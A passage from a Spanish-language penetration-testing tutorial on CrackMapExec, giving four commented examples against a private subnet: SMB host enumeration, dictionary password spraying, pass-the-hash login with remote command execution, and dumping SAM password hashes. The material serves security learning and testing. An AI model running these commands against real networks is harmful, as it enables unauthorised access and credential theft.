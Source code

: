 ```mermaid
    L --> H
```

---

## Ejemplos Prácticos

### Ejemplo 1: Enumeración de Hosts Windows en la Red

```bash
# Escanea toda la subred en busca de hosts SMB disponibles
crackmapexec smb 192.168.1.0/24
```

> [!example] Explicación
> Este comando escanea toda la subred 192.168.1.0/24 en busca de servidores SMB activos. Para cada host encontrado, muestra información como nombre del host, dominio, versión de sistema operativo y si tiene SMB firmado requerido. Es una excelente manera de identificar rápidamente todos los sistemas Windows en una red.

### Ejemplo 2: Prueba de Credenciales en Múltiples Hosts

```bash
# Prueba una lista de usuarios y contraseñas contra múltiples hosts
crackmapexec smb 192.168.1.0/24 -u users.txt -p passwords.txt --continue-on-success
```

> [!example] Explicación
> Este comando realiza un ataque de fuerza bruta/diccionario contra todos los hosts SMB en la subred. Lee usuarios de "users.txt" y contraseñas de "passwords.txt", probando cada combinación. El flag `--continue-on-success` hace que siga intentando todas las combinaciones incluso después de encontrar credenciales válidas, lo que es útil para descubrir múltiples cuentas comprometidas.

### Ejemplo 3: Ataque Pass-the-Hash y Ejecución de Comandos

```bash
# Usa un hash NTLM para autenticarse y ejecutar un comando
crackmapexec smb 192.168.1.100 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0' -x 'whoami /all'
```

> [!example] Explicación
> Este comando utiliza la técnica "Pass-the-Hash" para autenticarse como el usuario Administrator sin conocer su contraseña en texto claro, solo usando el hash NTLM. Si la autenticación es exitosa, ejecuta el comando `whoami /all` en el sistema remoto, mostrando información detallada sobre el contexto de seguridad del usuario actual.

### Ejemplo 4: Extraer Hashes de Contraseñas

```bash
# Extraer hashes de la base de datos SAM local
crackmapexec smb 192.168.1.100 -u Administrator -p 'Password123' --sam
```
